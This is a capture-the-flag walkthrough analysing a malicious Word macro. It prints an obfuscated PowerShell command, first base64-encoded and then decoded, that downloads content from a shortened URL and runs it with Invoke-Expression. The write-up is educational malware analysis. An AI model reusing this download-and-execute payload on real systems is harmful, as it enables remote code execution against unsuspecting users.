

# Lure

__Description:__

>The finance team received an important looking email containing an attached Word document. Can you take a look and confirm if it's malicious?

## Walkthrough

Ok, so we have a `.doc` file to examine.

I took the tool `olevba` and looked if there are macros in the document and to get other information if necessary.

Olevba spit out some powershell code and declared some things in the file as "Suspicious".

__Powershell Code__:

```powershell
pOweRshElL -ec cABPAHcARQByAHMAaABFAGwATAAgACQAKAAtAGoATwBpAE4AKAAoACQAUABzAGgATwBNAGUAWwA0AF0AKQAsACgAIgAkAFAAcwBIAG8ATQBFACIAKQBbACsAMQA1AF0ALAAiAHgAIgApADsAKQAoAGkAdwByACAAJAAoACgAIgB7ADUAfQB7ADIANQB9AHsAOAB9AHsANwB9AHsAMAB9AHsAMQA0AH0AewAzAH0AewAyADEAfQB7ADIAfQB7ADIAMgB9AHsAMQA1AH0AewAxADYAfQB7ADMAMQB9AHsAMgA4AH0AewAxADEAfQB7ADIANgB9AHsAMQA3AH0AewAyADMAfQB7ADIANwB9AHsAMgA5AH0AewAxADAAfQB7ADEAfQB7ADYAfQB7ADIANAB9AHsAMwAwAH0AewAxADgAfQB7ADEAMwB9AHsAMQA5AH0AewAxADIAfQB7ADkAfQB7ADIAMAB9AHsANAB9ACIALQBmACAAIgBCACIALAAiAFUAIgAsACIANAAiACwAIgBCACIALAAiACUANwBEACIALAAiAGgAdAAiACwAIgBSAF8AZAAiACwAIgAvAC8AbwB3AC4AbAB5AC8ASABUACIALAAiAHAAOgAiACwAIgBUACIALAAiADAAIgAsACIAXwAiACwAIgBOACIALAAiAE0AIgAsACIAJQA3ACIALAAiAEUAIgAsACIAZgAiACwAIgAxAFQAIgAsACIAdQAiACwAIgBlACIALAAiADUAIgAsACIAawAiACwAIgBSACIALAAiAGgAIgAsACIAMAAiACwAIgB0ACIALAAiAHcAIgAsACIAXwAiACwAIgBsACIALAAiAFkAIgAsACIAQwAiACwAIgBVACIAKQApACkA
```

Ok, let's decode the base64 first:

`echo <base64-string> | base64 -d`

```powershell
pOwErshElL $(-jOiN(($PshOMe[4]),("$PsHoME")[+15],"x");)(iwr $(("{5}{25}{8}{7}{0}{14}{3}{21}{2}{22}{15}{16}{31}{28}{11}{26}{17}{23}{27}{29}{10}{1}{6}{24}{30}{18}{13}{19}{12}{9}{20}{4}"-f "B","U","4","B","%7D","ht","R_d","//ow.ly/HT","p:","T","0","_","N","M","%7","E","f","1T","u","e","5","k","R","h","0","t","w","_","l","Y","C","U")))
```

That looks better already!

To display the flag correctly I opened `pwsh`, the intigrated powershell in Kali-Linux and used a simple `echo` command.

__Flag__


